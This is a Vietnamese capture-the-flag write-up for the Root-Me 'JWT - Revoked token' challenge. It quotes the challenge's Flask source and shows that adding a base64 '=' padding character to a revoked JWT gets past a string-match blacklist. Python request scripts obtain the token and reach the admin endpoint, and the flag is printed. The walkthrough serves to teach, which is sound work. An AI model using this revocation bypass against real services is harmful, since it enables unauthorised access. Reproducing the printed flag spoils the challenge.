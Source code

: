 # JWT - Revoked token

## Discription 

Two endpoints are available :

- POST : /web-serveur/ch63/login
- GET : /web-serveur/ch63/admin

Get an access to the admin endpoint.

## Solution

Bài cho source code nên việc đầu tiên cần làm sẽ là đi mổ sẻ cái này .

```
def login():
    try:
        username = request.json.get('username', None)
        password = request.json.get('password', None)
    except:
        return jsonify({"msg":"""Bad request. Submit your login / pass as {"username":"admin","password":"admin"}"""}), 400
 
    if username != 'admin' or password != 'admin':
        return jsonify({"msg": "Bad username or password"}), 401
 
    access_token = create_access_token(identity=username,expires_delta=datetime.timedelta(minutes=3))
    ret = {
        'access_token': access_token,
    }
   
    with lock:
        blacklist.add(access_token)
 
    return jsonify(ret), 200
```

Đầu tiên login() , hàm này làm nhiệm vụ tạo cho ta một cái token có thời hạn 3 phút để xác thực và cụ thể ở đây ta cần gửi một user = admin và pass = admin . Sẽ chẳng có gì đáng nói nếu hàm này ko thực hiện thêm một công việc đó là thêm cái token này vào blacklist .  

```
def delete_expired_tokens():
    with lock:
        to_remove = set()
        global blacklist
        for access_token in blacklist:
            try:
                jwt.decode(access_token, app.config['JWT_SECRET_KEY'],algorithm='HS256')
            except:
                to_remove.add(access_token)
       
        blacklist = blacklist.difference(to_remove)
```

Hiểu đơn giản đây là một hàm dùng để xóa những token hết hạn và nó sẽ được gọi sau mỗi 10s .

```
def protected():
    access_token = request.headers.get("Authorization").split()[1]
    with lock:
        if access_token in blacklist:
            return jsonify({"msg":"Token is revoked"})
        else:
            return jsonify({'Congratzzzz!!!_flag:': FLAG})
```

Hàm này sẽ kiểm tra token có trong blacklist hay ko nếu không thì nó sẽ đưa flag cho ta . 

Nhận định ban đầu để pass thì ta cần có một token ko có trong blacklist nhưng ngay từ khi được tạo thì token đã được thêm vào blacklist và chỉ đc xóa đi khi hết hạn khi ấy thì nó lại không còn hợp lệ nữa khá khó khăn để giải quyết vấn đề này .

Tuy nhiên có một lối thoát đó là:
+ Tất cả các phần của JWT đều được encode base64 .
+ Base64 có một đặc trưng đó là trong quá trình mã hóa sẽ xảy ra một số trường hợp thừa thiếu bit để giải quyết vấn đề này người ta tạo ra phần đệm *=* để xác định chiều dài mã hóa và ko làm ảnh hưởng đến việc mã hóa .(https://en.wikipedia.org/wiki/Base64). Thực ra mk cũng chưa hiểu lắm cơ mà đại loại là ta có thể thêm dấu *=* vào cuối chuỗi base64 mà ko làm thay đổi nó.

Từ hai điều trên chúng ta chỉ cần thêm đấu bằng vào cuối token nhận đc từ enpoint /login là bypass thành công.

Trước tiên là code python tạo client request với post lấy token (lưu ý là phải có "Content-Type": "application/json" ):

```
import requests

url = "http://challenge01.root-me.org/web-serveur/ch63/login"

header = {"Content-Type": "application/json"}
data = '{"username":"admin","password":"admin"}'

res = requests.post(url, data=data, headers=header)

print(res.text) 
```

> {"access_token":"eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpYXQiOjE2MjQ0NDIyMDgsIm5iZiI6MTYyNDQ0MjIwOCwianRpIjoiYTc5MjFlZTctNjZlNy00MjVkLWFjYjYtMWUwOGE4N2EwNjQ3IiwiZXhwIjoxNjI0NDQyMzg4LCJpZGVudGl0eSI6ImFkbWluIiwiZnJlc2giOmZhbHNlLCJ0eXBlIjoiYWNjZXNzIn0.0cwbnn0fuutn09i2THwujzZ_YsV1HKQQsWGH3UeUFh0"}

Tiếp theo là sửa token (add =) và gửi lên endpont /admin .

```
import requests

url = "http://challenge01.root-me.org/web-serveur/ch63/admin"

header = {"Content-Type": "application/json","Authorization": "Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpYXQiOjE2MjQ0NDIyMDgsIm5iZiI6MTYyNDQ0MjIwOCwianRpIjoiYTc5MjFlZTctNjZlNy00MjVkLWFjYjYtMWUwOGE4N2EwNjQ3IiwiZXhwIjoxNjI0NDQyMzg4LCJpZGVudGl0eSI6ImFkbWluIiwiZnJlc2giOmZhbHNlLCJ0eXBlIjoiYWNjZXNzIn0.0cwbnn0fuutn09i2THwujzZ_YsV1HKQQsWGH3UeUFh0="}

res = requests.get(url,headers=header)

print(res.text)

```

## Flag

 {"Congratzzzz!!!_flag:":"Do_n0t_r3v0ke_3nc0d3dTokenz_Mam3ne-Us3_th3_JTI_f1eld"}


